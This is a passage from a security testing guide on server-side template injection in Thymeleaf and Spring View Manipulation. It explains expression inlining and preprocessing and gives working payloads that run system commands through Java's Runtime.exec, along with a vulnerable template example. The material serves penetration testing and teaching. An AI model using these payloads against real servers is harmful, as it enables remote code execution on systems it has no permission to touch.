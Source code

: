 However, as we mentioned before, expressions only work in special Thymeleaf attributes. If it’s necessary to use an expression in a different location in the template, Thymeleaf supports _expression inlining_. To use this feature, you must put an expression within `[[...]]` or `[(...)]` \(select one or the other depending on whether you need to escape special symbols\). Therefore, a simple SSTI detection payload for Thymeleaf would be `[[${7*7}]]`.

Chances that the above detection payload would work are, however, very low. SSTI vulnerabilities usually happen when a template is dynamically generated in the code. Thymeleaf, by default, doesn’t allow such dynamically generated templates and all templates must be created earlier. Therefore, if a developer wants to create a template from a string _on the fly_, they would need to create their own TemplateResolver. This is possible but happens very rarely.

If we take a deeper look into the documentation of the Thymeleaf template engine, we will find an interesting feature called _**expression preprocessing**_. Expressions placed between double underscores \(`__...__`\) are preprocessed and the result of the preprocessing is used as part of the expression during regular processing. Here is an official example from Thymeleaf documentation:

```text
#{selection.__${sel.code}__}
```

#### Vulnerable example

```markup
<a th:href="@{__${path}__}" th:title="${title}">

http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```

#### More information

* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)

### Spring View Manipulation \(Java\)

* `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x`
* `__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x`

[https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

### Smarty \(PHP\)

#### More information

* In Smarty section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)

### Twig \(PHP\)
